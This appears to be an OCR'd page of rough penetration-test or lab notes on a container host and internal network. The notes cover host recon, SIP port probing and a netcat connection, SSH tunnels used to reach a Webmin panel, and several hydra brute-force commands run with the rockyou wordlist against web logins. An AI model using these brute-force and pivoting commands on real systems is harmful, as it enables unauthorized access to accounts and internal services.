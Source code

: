 installed docker.io

ps aux | grep keyring

found host 192.168.1.100
scanned 
trying to connect to VoIp through open port
**Port 5060**: This is the default port for SIP (Session Initiation Protocol), a widely-used signaling protocol in VoIP systems.

uname -a
Linux 35cc20b39538 6.8.0-52-generic #53~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Wed Jan 15 19:18:46 UTC 2 x86_64 GNU/Linux

found         
/var/log/admin.yolo.co.il.log

found opening script
entrypoint.sh
This script is likely part of the initialization process for a web server container that also supports SSH and logging.

- **SSH Service**: Since the script starts the SSH service, you should be able to connect via SSH after the container has started, assuming the proper configurations and SSH keys are set up.
    
- **Check Apache**: Since it runs Apache HTTPD, you can check if the web server is functioning by looking for web content served by Apache.
apparmor module is loaded.
apparmor filesystem is not mounted.

dexter is the IT manager

mailname == 85c01788d70b
found exim mail service
some documentation about it in the /etc/ppp 

trying to ftp to 192.168.2.8
Name (192.168.2.8:dexter):
hydra -l mike -P /usr/share/wordlists/rockyou.txt admin.yolo.co.il http-get "/?username=^USER^&pswrd=^PASS^&remember=on" -s 80 -f -vV
hydra -l mike -P /usr/share/wordlists/rockyou.txt admin.yolo.co.il http-get "/?username=^USER^&pswrd=^PASS^&remember=on:F=incorrect" -s 80 -f -vV

hydra -l mike -P /usr/share/wordlists/rockyou.txt admin.yolo.co.il http-get "/?username=^USER^&pswrd=^PASS^&remember=on:F=incorrect" -s 80 -f -vV

trying connect via ppp

nc -v 192.168.2.3 10000

established a tunnel
ssh -L 10000:192.168.2.3:10000 dexter@192.168.2.2

ssh -L 10000:192.168.2.3:10000 -p 2222 dexter@10.1.22.121

and accessed webmin page
https://localhost:10000/

hydra -l dexter -P /usr/share/wordlists/rockyou.txt "https-post-form://localhost:10000/session_login.cgi:user=^USER^&pass=^PASS^:F=Login failed. Please try again."
